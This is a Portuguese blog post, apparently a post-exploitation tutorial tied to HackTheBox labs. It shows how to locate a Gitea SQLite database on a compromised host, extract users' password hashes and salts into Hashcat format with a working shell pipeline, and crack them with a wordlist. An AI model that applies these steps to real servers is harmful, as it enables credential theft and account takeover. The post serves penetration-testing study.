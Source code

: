 ```yaml
---
title: Extraindo Usuários do Gitea
description: Como extrair usuários do Gitea DB e como quebrá-los via brute force.
slug: gitea_users_exfiltration
authors: raphaelsander
tags: [gitea, sqlite, hash, hashcat, privilege_escalation]
hide_table_of_contents: false
---
```


Quando ganhamos acesso a um *host* porém precisamos escalar privilégios e
conseguir acesso à autenticação de usuário com permissões mais elevadas pode ser
um desafio. Nesse *post* irei mostrar como fazer a extração e quebra dos
usuários presentes no DB da aplicação Gitea, mas que pode não se limitar apenas
a este.

<!-- markdownlint-disable MD037 -->
{/* truncate */}
<!-- markdownlint-enable MD037 -->

## Localizando o Gitea DB

A localização do banco de dados do Gitea em caso de ser Sqlite3, é definido no
setup inicial ou via variável de ambiente caso conteinerizado.

![gitea_db_setup](/img/blog/gitea_users_exfiltration/gitea_db_setup.png)

Este é apenas um cenário caso você tenha acesso a uma *shell* ou uma falha de
RCE no *host* alvo, caso contrário será necessário identificar a localização do
arquivo e download de outra maneira.

```bash
find / -name gitea.db 2>/dev/null
# ou
find / -name *.db 2>/dev/null
```

## Extraindo o Hash do Usuários

Abaixo iremos extrair o usuário da tabela `user` e formatar para que o *salt* e
o *hash* fiquem no formato reconhecido pelo Hashcat.

```bash
sqlite3 gitea.db "select passwd,salt,name from user" | \
    while read data; do
        digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64);
        salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64);
        name=$(echo $data | cut -d'|' -f3);
        echo "${name}:sha256:50000:${salt}:${digest}";
    done | \
    tee gitea.hashes
```

Resultado:

```hash
# <user>:<algoritm>:<interaction_number>:<salt>:<digest>
admin:sha256:50000:dgaKi9oBOPF7HkA4p4/dmQ==:sPxfp5JlXb0HURMg3Xwv9UmEQkYtRn+VZAbakCuPHwZRJfACimU+2t4yQVEoWo3wuss=
```

`<user>`: Indica o nome ou identificador do usuário.  
`<algoritm>`: Especifica o algoritmo de hash utilizado para transformar a senha
em uma sequência fixa (neste caso, SHA-256).  
`<50000>`: Representa o número de iterações que o algoritmo de hash é aplicado.
Essa repetição torna o processo de cálculo mais lento, ajudando a dificultar
ataques de força bruta.  
`<salt>`: É um valor aleatório adicionado à senha antes de aplicar o hash. O
salt previne o uso de tabelas pré-calculadas (rainbow tables) e garante que
senhas iguais não resultem no mesmo hash.  
`<digest>`: É o resultado final (o hash) da senha combinada com o salt,
processada pelo algoritmo SHA-256 o número especificado de vezes.

Note que o salt e o digest precisam estar em *base64* porque para esse *hash* é
solicitado pelo Hashcat. Podemos ver isso com o argumento `--hash-info`:

```bash
hashcat -m 10900 --hash-info
```

![hash_info](/img/blog/gitea_users_exfiltration/hash_info.png)

O número de iterações pode ser diferente dependendo do `PASSWORD_HASH_ALGO`
utilizado durante o setup ou como variável de ambiente. Abaixo temos as opções
de `PASSWORD_HASH_ALGO`, note que no caso do `pbkdf2`, há várias iterações
possíveis (10000, 50000 e 320000).

```hash
argon2: argon2$2$65536$8$50
bcrypt: bcrypt$10
pbkdf2: pbkdf2$50000$50
pbkdf2_v1: pbkdf2$10000$50
pbkdf2_v2: pbkdf2$50000$50
pbkdf2_hi: pbkdf2$320000$50
scrypt: scrypt$65536$16$2$50
```

Isso vai estar disponível no próprio banco de dados:

```bash
$ sqlite3 gitea.db "select passwd_hash_algo from user"
pbkdf2$50000$50
```

## Quebra do Hash

Para a quebra dos hashes utilizando o hashcat é bem simples e inclusive pode ser
omitido o argumento que indica do algorítmo porque será automaticamente
definido.

```bash
hashcat gitea.hashes /usr/share/wordlists/rockyou.txt --user
```

## Referências

<!-- markdownlint-disable MD034 -->
- https://hashcat.net/wiki/doku.php?id=example_hashes
- https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#crack-gitea-hash
- https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/05_password_attacks.md#cracking-gitea-hashes
- https://medium.com/@khaledkamal456/solving-htb-machine-titanic-easy-3fbf13560594
<!-- markdownlint-enable MD034 -->
